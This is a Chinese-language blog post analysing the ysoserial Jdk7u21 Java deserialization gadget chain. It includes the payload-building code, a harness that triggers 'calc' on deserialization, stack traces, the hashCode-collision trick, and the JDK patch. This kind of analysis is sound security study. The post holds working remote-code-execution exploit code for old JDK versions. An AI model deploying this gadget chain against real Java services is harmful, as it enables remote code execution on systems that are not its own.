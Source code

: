 ```yaml
---
title: "Ysoserial JDK7u21"
date: 2020-06-10T11:13:52+08:00
draft: false
tags:
- ysoserial
- 反序列化
- Java
series:
-
categories:
- 代码审计
---
```


0^anything=anything
<!--more-->
## 环境
jdk7u21 ysoserial idea

## 复现
![image.png](https://y4er.com/img/uploads/20200610111235.png)

```java
package ysoserial.mytest;

import ysoserial.payloads.Jdk7u21;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class JDK7u21 {
    public static void main(String[] args) {
        try {
            Object calc = new Jdk7u21().getObject("calc");

            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();//用于存放person对象序列化byte数组的输出流

            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(calc);//序列化对象
            objectOutputStream.flush();
            objectOutputStream.close();

            byte[] bytes = byteArrayOutputStream.toByteArray(); //读取序列化后的对象byte数组

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);//存放byte数组的输入流

            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            Object o = objectInputStream.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
## 分析
首先简单两行代码rce

```java
TemplatesImpl object = (TemplatesImpl) Gadgets.createTemplatesImpl("calc");
object.getOutputProperties();
```
![image.png](https://y4er.com/img/uploads/20200610115520.png)

createTemplatesImpl 是使用 javassist 动态的添加的恶意 java 代码，初始化时自动执行，之前的文章中说过，getOutputProperties()中调用newTransformer()
![image.png](https://y4er.com/img/uploads/20200610114926.png)

调用了getTransletInstance()
![image.png](https://y4er.com/img/uploads/20200610115760.png)

getTransletInstance()中将恶意字节码加载进来并且new实例，在实例化时rce。
![image.png](https://y4er.com/img/uploads/20200610110173.png)

现在的问题就是如何反序列化自动调用getOutputProperties，把yso的payload抠出来

```java
    public Object getObject(final String command) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl(command);

        String zeroHashCodeStr = "f5a5a608";

        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
        Reflections.setFieldValue(tempHandler, "type", Templates.class);
        Templates proxy = Gadgets.createProxy(tempHandler, Templates.class);

        LinkedHashSet set = new LinkedHashSet(); // maintain order
        set.add(templates);
        set.add(proxy);

        Reflections.setFieldValue(templates, "_auxClasses", null);
        Reflections.setFieldValue(templates, "_class", null);

        map.put(zeroHashCodeStr, templates); // swap in real object
        return set;
    }
```
map先是存了一个`f5a5a608=foo`，然后f5a5a608值改为TemplatesImpl恶意对象

set对象存放了TemplatesImpl恶意对象和Templates的动态代理对象

![image.png](https://y4er.com/img/uploads/20200610119092.png)

LinkedHashSet继承HashSet，其readObject在HashSet中
![image.png](https://y4er.com/img/uploads/20200610113776.png)

在该readObjcet中会将反序列化的对象put()放入map中（HashSet本质是HashMap），先添加templates再添加proxy。在put()第二次添加proxy的时候，map中已经有了一个TemplatesImpl
![image.png](https://y4er.com/img/uploads/20200610115905.png)
所以会拿上一个Entry的key做比较，当key对象相等时新值替换旧值，返回旧值。

```java
e.hash == hash && ((k = e.key) == key || key.equals(k))
```
问题就出在`key.equals(k)`，但是要想进入equals方法需要满足前面的几个短路条件

1. e.hash == hash 为真
2. (k = e.key) == key 为假

e.hash是在生成payload的时候`set.add(proxy)`计算的，贴一下堆栈

```java
hashCodeImpl:293, AnnotationInvocationHandler (sun.reflect.annotation)
invoke:64, AnnotationInvocationHandler (sun.reflect.annotation)
hashCode:-1, $Proxy0 (com.sun.proxy)
hash:351, HashMap (java.util)
put:471, HashMap (java.util)
add:217, HashSet (java.util)
getObject:84, Jdk7u21 (ysoserial.payloads)
rce:21, JDK7u21 (ysoserial.mytest)
main:16, JDK7u21 (ysoserial.mytest)
```

在java.util.HashMap#put添加键值的时候会计算对象hash，走了一个hash(key)函数
![image.png](https://y4er.com/img/uploads/20200610110429.png)

而key此时是proxy动态代理对象，要调用它的hashCode()函数需要走动态代理的invoke接口，当调用方法名为hashCode时，会进入hashCodeImpl()
![image.png](https://y4er.com/img/uploads/20200610117633.png)

```java
    private int hashCodeImpl() {
        int var1 = 0;

        Entry var3;
        for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
            var3 = (Entry)var2.next();
        }

        return var1;
    }
```
这个方法遍历memberValues这个map对象，然后做了

```java
v += 127 * (key).hashCode() ^ memberValueHashCode(value);
```
`memberValueHashCode()`直接返回`var0.hashCode()`，也就是直接返回原本对象的hashcode，但是还要走一次亦或，所以要让`127 * (key).hashCode()=0`，而key为`f5a5a608`，他的hashcode刚好为0，到这里不得不惊叹作者的巧妙。

> 拓展: 空字符串和`\u0000`的hashCode都为0

![image.png](https://y4er.com/img/uploads/20200610119892.png)

e.hash==hash其实就是拿proxy代理的`@javax.xml.transform.Templates(f5a5a608=foo)`对象的hash和之前计算的自身hash做比较，结果当然为true。

`(k = e.key) == key`拿proxy对象和Templates比较肯定为false。

走到key.equals(k)这一步，也就是`proxy.equals(templates)`。同理调用proxy的equals函数需要通过invoke接口走
![image.png](https://y4er.com/img/uploads/20200610113803.png)

然后
![image.png](https://y4er.com/img/uploads/20200610113821.png)

getMemberMethods()取出两个无参方法
![image.png](https://y4er.com/img/uploads/20200610114904.png)

在这调用了getOutputProperties()，回到上文的rce流程就串起来了。

## 修复
```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```
对于this.type进行了校验必须为Annotation.class

## 参考
1. https://mp.weixin.qq.com/s/qlg3IzyIc79GABSSUyt-OQ
2. https://b1ue.cn/archives/176.html
3. https://xz.aliyun.com/t/6884
4. https://b1ngz.github.io/java-deserialization-jdk7u21-gadget-note/


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**